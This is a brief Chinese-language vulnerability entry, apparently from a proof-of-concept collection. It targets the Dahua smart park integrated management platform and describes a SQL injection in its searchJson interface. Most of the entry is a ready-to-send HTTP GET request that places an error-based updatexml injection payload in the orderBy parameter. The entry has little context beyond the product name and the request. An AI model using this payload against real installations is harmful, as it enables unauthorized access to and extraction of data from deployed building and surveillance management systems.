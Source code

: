 #### 影响范围

⼤华智慧园区综合管理平台

#### 漏洞概述

⼤华智慧园区综合管理平台searchJson SQL注入

#### 漏洞复现

漏洞POC

```
GET /portal/services/carQuery/getFaceCapture/searchJson/%7B%7D/pageJson/%7B%22orderBy%22:%221%20and%201=updatexml(1,concat(0x7e,(select%20md5(388609)),0x7e),1)--%22%7D/extend/%7B%7D HTTP/1.1
Host: 127.0.0.1:7443
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip, deflate
Connection: close
```

